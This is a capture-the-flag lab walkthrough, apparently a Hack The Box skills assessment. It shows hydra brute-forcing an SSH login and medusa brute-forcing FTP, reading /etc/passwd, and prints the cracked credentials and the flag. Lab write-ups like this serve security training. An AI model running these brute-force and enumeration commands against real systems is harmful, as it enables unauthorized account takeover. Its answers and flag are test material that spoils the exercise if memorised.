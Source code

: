 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```


# Part 2

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

![](gitbook/cybersecurity/images/Pasted%20image%2020250213160519.png)

If we recall last part, we found an username:

```
satwossh
```

We can begin our brute forcing by trying to find the password for that username, we suppose its a `ssh` user so, let's do the following command:

```
hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 36513 ssh -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:06:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 200 login tries (l:1/p:200), ~4 tries per task
[DATA] attacking ssh://94.237.54.164:36513/
[36513][ssh] host: 94.237.54.164   login: satwossh   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`satwossh`:`password1`
```

Let's log into ssh:

```
ssh satwossh@94.237.54.164 -p 36513
The authenticity of host '[94.237.54.164]:36513 ([94.237.54.164]:36513)' can't be established.
ED25519 key fingerprint is SHA256:0ldLAJLTwIrE2wupFhvN1WiHuimct7AF+pBddY5xIi8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[94.237.54.164]:36513' (ED25519) to the list of known hosts.
satwossh@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
satwossh@ng-1340293-loginbfsatwo-rv3cd-7fdfc99595-9tpzv:~$
```

Nice, let's search the ports and active listening services, also, the home directory:

```
 netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -


nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 21:09 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000076s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```

We found ftp, and an user named `thomas`, let's try to brute force the ftp login:

```
which medusa

/usr/bin/medusa
```

Medusa is enabled:

```
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5

ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: a123456 (28 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: 666666 (29 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: asdfghjkl (30 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: ashley (31 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: chocolate! (32 of 198 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

Found the ftp credentials:

```
`thomas`:`chocolate!`
```

Let's log into ftp:

```
ftp ftp://thomas:'chocolate!'@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||55297|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           28 Sep 10 09:19 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10266|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |***********************************************************************************************************************************************************|    28      701.12 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (157.14 KiB/s)
ftp> exit
221 Goodbye.

cat flag.txt

HTB{brut3f0rc1ng_succ3ssful}
```

Flag is:

```
HTB{brut3f0rc1ng_succ3ssful}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250213161640.png)
